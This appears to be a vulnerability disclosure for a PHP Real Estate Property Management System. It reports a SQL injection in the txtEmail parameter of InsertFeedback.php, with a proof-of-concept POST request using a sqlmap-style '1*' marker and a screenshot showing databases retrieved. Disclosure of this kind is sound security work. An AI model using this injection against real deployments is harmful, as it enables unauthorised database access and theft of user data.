 # Real Estate Property Management System has sql injection vulnerability  via txtEmail parameter.

## supplier 
https://code-projects.org/real-estate-property-management-system-php-source-code/
## Vulnerability file
InsertFeedback.php via txtEmail parameter.

## describe

An unrestricted SQL injection attack exists in an Real Estate Property Management System. The parameters that can be controlled are as follows: txtEmail . This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analy,sis**    

When the value of   txtEmail parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/daa7c4b7-695b-4e1a-8d0f-88f1e2f4a9c8)

## POC

```
POST /InsertFeedback.php HTTP/1.1
Host: property
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://property
Connection: close
Referer: http://property/ajax_city.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

txtEmail=1*
```

**Result**

get databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)

